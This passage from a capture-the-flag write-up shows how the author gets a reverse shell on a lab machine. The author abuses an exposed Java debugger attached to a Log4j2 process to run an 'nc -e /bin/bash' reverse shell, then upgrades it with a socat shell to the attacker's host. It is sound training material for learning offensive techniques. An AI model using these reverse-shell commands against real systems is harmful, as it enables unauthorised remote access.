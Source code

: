 - Set a breakpoint in `org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()`:

```
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
```

- Wait for the breakpoint hit:

```
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0

Log4j2-TF-4-Scheduled-1[1] 
```

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 4446
listening on [any] 4446 ...
```

- Send a reverse shell payload:

```
Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 10.8.27.249 4446 -e /bin/bash")
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# nc -lnvp 4446
listening on [any] 4446 ...
connect to [10.8.27.249] from (UNKNOWN) [10.10.160.234] 50874
whoami;hostname;id;ip a
veronica
ubuntu
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:56:23:b0:c1:77 brd ff:ff:ff:ff:ff:ff
    inet 10.10.160.234/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::56:23ff:feb0:c177/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm `veronica`!

**Stable shell via `socat`:**
```
/dev/shm/socat TCP:10.8.27.249:4445 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Ghizer]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4445
2022/10/10 06:10:34 socat[52558] N opening character device "/dev/pts/3" for reading and writing
2022/10/10 06:10:34 socat[52558] N listening on AF=2 0.0.0.0:4445
                                                                 2022/10/10 06:11:16 socat[52558] N accepting connection from AF=2 10.10.160.234:38118 on AF=2 10.8.27.249:4445
                                                                     2022/10/10 06:11:16 socat[52558] N starting data transfer loop with FDs [5,5] and [7,7]
                                                  veronica@ubuntu:~$ 
veronica@ubuntu:~$ stty rows 22 columns 107
veronica@ubuntu:~$ export TERM=xterm-256color
veronica@ubuntu:~$ ^C
veronica@ubuntu:~$ 
```

